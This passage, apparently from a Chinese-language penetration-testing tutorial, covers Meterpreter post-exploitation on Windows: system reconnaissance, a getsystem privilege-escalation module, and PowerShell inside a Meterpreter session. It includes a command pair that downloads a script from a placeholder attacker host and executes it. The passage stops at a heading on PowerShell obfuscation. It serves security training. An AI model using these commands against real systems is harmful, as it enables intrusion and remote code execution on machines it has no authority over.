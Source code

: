 ### 系统信息收集

我们可以使用 Meterpreter 通过 **sysinfo** 和 **getsystem** 命令对目标系统进行分析。这些命令会生成一份详细报告，记录目标系统的功能：

```
 # Display system information
sysinfo
# Gather information about the target machine
getsystem
```

### 权限提升

我们可以使用 Meterpreter 加载支持各种功能的模块。接下来，我们将使用 Meterpreter 加载一个模块，尝试进行权限提升：

```
 # Attempt privilege escalation using known exploits
use post/windows/escalate/getsystem
```

## 集成 PowerShell 以增强功能

为了增强后期利用能力，我们可以在 Meterpreter shell 中利用 PowerShell。这使我们能够利用 PowerShell 的广泛功能进行更加隐蔽和灵活的操作：

```
 # Launch PowerShell within Meterpreter
powershell_shell
```

现在，我们在 Meterpreter shell 中有了一个 PowerShell 提示符：

+   使用 PowerShell 执行命令：

    ```
     # Execute PowerShell commands
    (Get-WmiObject Win32_ComputerSystem).Name
    ```

    这个示例展示了如何在 Meterpreter 会话中使用 PowerShell 获取计算机名。

+   下载并执行 PowerShell 脚本：

    ```
     # Download a PowerShell script
    Invoke-WebRequest -Uri http://attacker_IP/script.ps1 -OutFile C:\malicious_script.ps1
    # Execute the downloaded script
    C:\malicious_script.ps1
    ```

    这个示例展示了如何在 Meterpreter 中使用 PowerShell 下载并执行恶意脚本。

## 混淆 PowerShell 命令
